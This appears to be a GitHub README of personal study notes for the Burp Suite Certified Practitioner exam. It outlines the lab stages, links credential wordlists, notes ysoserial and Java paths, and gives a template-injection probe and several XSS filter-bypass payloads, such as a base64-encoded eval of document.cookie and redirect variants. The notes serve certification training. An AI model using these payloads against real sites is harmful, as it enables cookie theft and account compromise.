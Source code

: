 # BSCP
Burp Suite Certified Practitioner exam notes

---------

You will have four hours to complete the Burp Suite Certified Practitioner exam. There are two applications, and each application contains deliberate vulnerabilities. This means that each application can be completed in three stages:

1. Access any user account.
2. Use your user account to access the admin interface, perhaps by elevating your privileges or compromising the administrator account.
3. Use the admin interface to read the contents of `/home/carlos/secret` from the server's filesystem, and submit it using "submit solution".

[Username list](https://portswigger.net/web-security/authentication/auth-lab-usernames) 

[Password list](https://portswigger.net/web-security/authentication/auth-lab-passwords)

If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port `6566`.

`${{<%[%'"}}%\`

java path
```
D:\Application\java\jdk-11.0.20\bin\java.exe
```
ysoserial path
```
D:\Tools\tools\ysoserial\ysoserial-all.jar
```

XSS Bypass

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#filter-bypass-and-exotic-payloads

```
eval(atob("YWxlcnQoZG9jdW1lbnQuY29va2llKQ=="))   <--  [echo -n "alert(document.cookie)" | base64 == YWxlcnQoZG9jdW1lbnQuY29va2llKQ==]
alert`1`
setTimeout`alert\u0028document.domain\u0029`;
window['alert'](document['domain'])
window["doc"+"ument"]

location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"





```















![image](https://github.com/Manoj-Mukund/BSCP/assets/83630751/76c816f9-3c59-4a86-88b2-9b93c64402db)

